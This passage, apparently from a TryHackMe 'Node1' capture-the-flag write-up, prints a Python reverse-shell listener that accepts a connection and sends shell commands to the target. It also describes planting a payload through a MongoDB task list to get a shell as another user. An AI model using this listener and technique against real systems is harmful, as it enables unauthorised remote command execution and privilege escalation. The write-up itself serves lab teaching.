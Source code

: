 - This code goes on your machine:

{% highlight python %}
#!/usr/bin/python3

from socket import *

HOST = '' # '' means bind to all interfaces.
PORT = 2468 # Port.

s = socket(AF_INET, SOCK_STREAM) # Create our socket handler.
s.setsockopt(SOL_SOCKET, SO_REUSEADDR, 1) # Set is so that when we cancel out we can reuse port.
try:
s.bind((HOST, PORT)) # Bind to interface.
print("[*] Listening on 0.0.0.0:%s" % str(PORT)) # Print we are accepting connections.
s.listen(10) # Listen for only 10 unaccepted connections.
conn, addr = s.accept() # Accept connections.
print("[+] Connected by", addr) # Print connected by ipaddress.
data = conn.recv(1024).decode("UTF-8") # Receive initial connection.
while 1: # Start loop.
command = input("target_machine> ") # Enter shell command.
conn.send(bytes(command, "UTF-8")) # Send shell command.
if command == "quit":
break # If we specify quit then break out of loop and close socket.
data = conn.recv(1024).decode("UTF-8") # Receive output from command.
print(data) # Print the output of the command.
except KeyboardInterrupt:
print("...listener terminated using [ctrl+c], Shutting down!")
exit() # Using [ctrl+c] will terminate the listener.

conn.close() # Close socket.
{% endhighlight %}

- As a test before using it as a payload to run as the user tom, we can try this using mark's account first.

![Python sender](/assets/writeups/TryHackMe/Node1/14-17.png)
![Python listener](/assets/writeups/TryHackMe/Node1/14-18.png)

 - Now we can try to run this by modifying the mongo db task list. We need to make sure to run the listener on our machine first else we might miss that 30 second window.
